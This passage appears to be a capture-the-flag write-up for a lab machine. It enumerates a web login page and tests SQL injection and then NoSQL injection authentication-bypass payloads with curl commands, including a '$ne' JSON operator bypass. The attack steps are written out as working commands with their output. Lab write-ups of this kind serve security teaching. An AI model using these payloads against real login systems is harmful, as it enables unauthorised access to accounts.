 #### Manual enumeration
If we open the webpage http://10.10.11.139:5000 we can see the following webpage:
![](img/2022-06-03-12-40-18.png)
From where we obtain links to `/login` and `/articles/uhc-qualifiers`. The `/articles` page contains a list of links that result useless for the current enumeration.
Anyway, we can see that the `/login` page contains a form with a `username` and `password` field, which we can try to bypass.

#### Login bypass
First thing we can notice is that the `/login` page responds differently when the `username` and `password` fields are wrong.
```bash
❯ curl -X POST "http://10.10.11.139:5000/login" -d "user=admin&password=1234" -s | grep Invalid
            Invalid Password
❯ curl -X POST "http://10.10.11.139:5000/login" -d "user=a&password=1234" -s | grep Invalid
            Invalid Username
```
This reassures us that the `admin` user is a valid user. We can try to bypass the login page through SQLi:
```bash
❯ curl -X POST "http://10.10.11.139:5000/login" -d "user=admin&password=1234' or 1=1 -- -" -s | grep Invalid
            Invalid Password
❯ curl -X POST "http://10.10.11.139:5000/login" -d "user=admin&password=1234\" or 1=1 -- -" -s | grep Invalid
            Invalid Password
❯ curl -X POST "http://10.10.11.139:5000/login" -d "user=admin&password=1234') or 1=1 -- -" -s | grep Invalid
            Invalid Password
```
So SQLi seems to be useless, let's try with NoSQLi following this [source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass):
```bash
❯ curl -X POST "http://10.10.11.139:5000/login" -d "user=admin&password[$ne]=fake" -s | grep Invalid
            Invalid Password
❯ curl -X POST "http://10.10.11.139:5000/login" -H "Content-Type: application/json" -d '{"user":"admin", "password": {"$ne": "bar"}}' -s | grep Invalid
```